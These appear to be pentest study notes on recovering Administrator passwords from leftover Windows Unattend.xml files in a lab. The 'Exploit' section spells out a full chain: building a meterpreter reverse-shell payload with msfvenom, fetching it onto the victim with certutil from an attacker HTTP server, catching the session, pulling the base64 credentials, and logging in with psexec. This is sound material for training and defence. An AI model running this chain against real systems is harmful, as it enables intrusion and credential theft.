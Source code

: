 Searching for Password  In windows Configuration Files
#### Windows Configuration Files
- Windows can automate a variety of repetitive tasks,such as the mass rollout or installtion of Windows on Many systems
- This is typically done through the use of the Unattended Windows security setup utility,which is used to automate the mass installation/deployment of Windows on systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials,specifically the Administrator account's password.
- If the Unattended Windows setup configuration files are left on the target system after installtion,they can reveal user account credentials that can be used by attackers to authenticate with windows target legitimately.
#### Unattended Windows Setup
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information
+ C:\Windows\Panther\Unattend.xml
+ C:\Windows\Panther\Autounattend.xml
- As a security precaution,the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.
#### Exploit
- Here we have access to attacker and victim machine too.
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.12 LPORT=1234 -f exe > payload.exe [ generate a payload in attacker machine ]
- python -m SimpleHTTPServer 80 [ start a sever in attacker machine ]
- certutil -urlcache -f http://10.10.10.12/payload.exe payload.exe [ run this attacker cmd,it will downlaod payload.exe from attacker machine and save as payload.exe ]
- back to attacker kali machine
- msfconsole
- use multi/handler
- set payload  windows/x64/meterpreter/reverse_tcp
- set LPORT 1234
- set LHOST 10.10.10.12
- run
- Now back to victim machine and execute the payload.exe
- we will get meterpreter session in attacker machine
- search [ this will show how to search in meterpreter ]
- search -f Unattend.xml [ this will take while to find the file ]
- we can manually find the Unattended.xml file in C:\Windows\Panther\Unattend.xml this location
- downlaod unattend.xml
- cat unattend.xml 
- here we will find user and password[ base 64 encoded]
- move to attacker kali machine
- psexec.py Administrator@10.2.27.165 [ use the password to login ]
- this will give us cmd prompt
